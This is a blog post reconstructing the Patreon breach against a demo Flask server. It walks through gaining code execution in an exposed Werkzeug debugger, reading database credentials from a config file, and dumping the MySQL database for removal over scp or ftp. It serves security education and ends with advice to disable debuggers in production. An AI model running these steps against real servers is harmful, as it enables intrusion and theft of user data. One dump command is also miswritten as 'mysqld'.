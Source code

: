 # Intro

In my [previous post in this series](http://raphael-enochian.tumblr.com/post/133000006820/go-ahead-expose-your-web-debugger-to-the), I gave a rundown on the recent Patreon hack. I analyzed the attack, security breaches, the source code, and the data dump. In this article, I will reconstruct and demonstrate the exploit itself used by the hackers by attacking  a demo [`Flask`](http://flask.pocoo.org/) server.

> **DISCLAIMER**: *Do not attempt to run this exploit against a server that you don't personally own, or explicitly have permission to do so. I am not liable for any damages or stupidity caused by this demo.*

## Some terms

* **Web framework** - A software library that easies the process of programmatically building a website and its services. [What is a Web Framework?](http://stackoverflow.com/a/4507543)
* **[`Flask`](http://flask.pocoo.org/)** - A web framework for building web applications with the Python programming language. It's light-weight, small, modular, and extensible, and is therefore called a *microframeworks*. Web microframeworks have been gaining a lot of traction in the past few years over older monolithic frameworks like `Ruby on Rails` and `Django`. Other popular examples of web microframeworks include `Sinatra` (Ruby) and `Node.js` (JavaScript). Flask is well established in the web developer community, powering either wholly or partially many popular websites: Pinterest, Twilio, Linked-In, Apple, and Obama's 2012 Election website.
* **[`Werkzeug`](http://werkzeug.pocoo.org/)** - the utility library for Flask that is used (or should be used) only in the development environment. It comes with a powerful in-browser debugger, and has services for hosting a local development web server.

## Setting the Stage

This exploit uses the `Werkzeug` version `0.9.6` -- the same version of Werkzeug running on the Patreon servers (according to the source code dump of the `venv` directory). This hack may not work on newer version of `Werkzeug`, which has since been updated with some security changes, like a debugger PIN code ([changelog for Werkzeug 0.11](https://github.com/mitsuhiko/werkzeug/blob/master/CHANGES#L54), line 54).

Let's begin by creating a basic Flask app with two endpoints: `index` and `error`.

`my-flask-app.py`

    from flask import Flask
    app = Flask(__name__)

    @app.route('/')
    def index():
        return "Hello, hacker!"

    @app.route('/error')
    def my_error():
        return 3 / 0

    app.run(debug=True, port=7777)

Next, we run the server.

    $ python my-flask-app.py
     * Running on http://127.0.0.1:7777/
     * Restarting with reloader

We now have a fully-fledged Flask application running with a WSGI server.

Open up a web browser and navigate to `http://127.0.0.1:7777`

![Working flask server](./1-hello-world.png)

## Enter Werkzeug Debugger
Because we specified the `debug=True` argument, the Werkzeug debugger is now active. That means, if any errors occur server-side, the powerful Werkzeug debugger is exposed. Some scenarios where this may occur when the debug=True flag is set:

 * Unhandled exceptions
 * Faulty server-side code
 * Environment or other system state factors have changed that the server-side code assumed
 * Client-side intervention by passing faulty data that the app doesn't know how to handle (or again, unhandled exceptions)

Otherwise, Flask will return a 500 "Internal Server Error", or whatever you want to specify the return code as.

All's said and done, it's best practice to simply **disable** the Werkzeug debugger when the server goes live -- and for whatever reason, Patreon didn't.

For simplicity's sake, we'll be using faulty server-side code in order to invoke the Werkzeug debugger. When the user navigates to the `error` endpoint, the server will try to divide 3 by 0, raising a `ZeroDivisionError`.

![Werkzeug](./2-werkzeug.png)

It's pretty powerful. Potentially useful for a developer and QA. And **extremely** useful for a hacker, as we will see.

Werkzeug allows you to open up an **interactive shell** right there in the browser. This shell can run arbitrary code against a Python interpreter, and has access to **all** the underlying server, application, and system information.

In the words of Crazy Horse, "it's a good day to die."

## Remote Code Execution inside the browser

When your application exposes the ability for the end-user to inject arbitrary code, it's **game over**. I could just call it a day right here, but let's continue my exploit.

![](./3-werkzeug.png)
And we can run arbitrary code *indeed*. Here I've imported the `os` module, which allows you to inspect and manipulate the underlying system. I then invoked a command to view all of the environment variables, thereby exposing details about the username, the shell, the system, etc. You can also use the `os` module to run commands directly against the system:

    >>> cmd_output = os.popen('ls -la').read()
    >>> print(cmd_output)
    my-flask-app.py
    server.conf


At this point, provided you know some basic Python or how to do a Google search, it's *trivial* to exploit this system.

Let's simplify our *remote code execution* by defining a `lambda`, so we're not typing `os.popen(<command>).read()` every time. Make sure to send your command as a `string`.

    >>> rex = lambda cmd, os=os: print(os.popen(cmd).read())
    >>> rex('uname -a')
    Linux my-computer 4.2.5-1-ARCH #1 SMP PREEMPT Tue Oct 27 08:13:28 CET 2015 x86_64 GNU/Linux

`rex`, short for **Remote EXecution**, is one of my favorite lambdas / single-line functions. We go back to my old Perl days in the warez scene. `rex` has always treat me very, *very* well.

Now, we want to find the login credentials to access the MySQL database, in order to get all of the user data. We inspect that shiney `server.conf` file we saw when we first invoked `ls`.

    >>> rex('cat server.conf')
    PROJECT_NAME = 'My Flask App'
    SQLALCHEMY_DATABASE_URI = 'mysql://root:root@10.0.2.15:3306/my_flask_app'

`SQLALCHEMY_DATABASE_URI` is a connection string that the Flask app uses to connect to its database. This connection string has all the information we need access to the MySQL server: username, password, IP address, port, and database name.

Let me just pause right here and say that it's a **terrible** practice to store your passwords and configuration files in plaintext. Had Patreon encrypted their configuration files, there's a good chance the hackers wouldn't have gained access to the MySQL database (and all that user info), and the hack would have stopped right here.

## Reverse Shell, mysqldump

You could use Werkzeug here to execute a Python script that opens up an SSH connection into the machine, and connect from there. In penetration testing, we call this a `Reverse Shell`, but this topic deserves its own post. Actually, technically speaking, Werkzeug itself *is* a Reverse Shell.

Let's dump the mysql database using `mysqldump`, just like how the Patreon hackers did it.

![mysqldump](5-mysqldump.png)

(you can use `-h` for `host` and `-P` for port, but in this demo, the MySQL server is running on the same machine as the application server.)

Here's some faux customer data that was in our demo database:

![mysqldump](6-mysqldump.png)

At that point it's as easy as scraping the page for the dump (or using copy and paste). Or, better -- as the Patreon database was a 15gb file -- we can redirect the dump into a file:

    >>> rex('mysqld -u root -proot my_flask_app > app_dump.sql')

... and use a command-line utility like **scp** or **ftp** to save it to an endpoint we exposed on the Internet.

And that's how the hackers did it.

## Final thoughts
Do realize that all of these steps above can, and have already been automated by people wishing to test this vulnerability against their own systems -- meaning any script kiddie with `Metasploit`, or any bot with the right script, can do this.

The bottom line is:
#**`Don't expose your debugger in production!`**
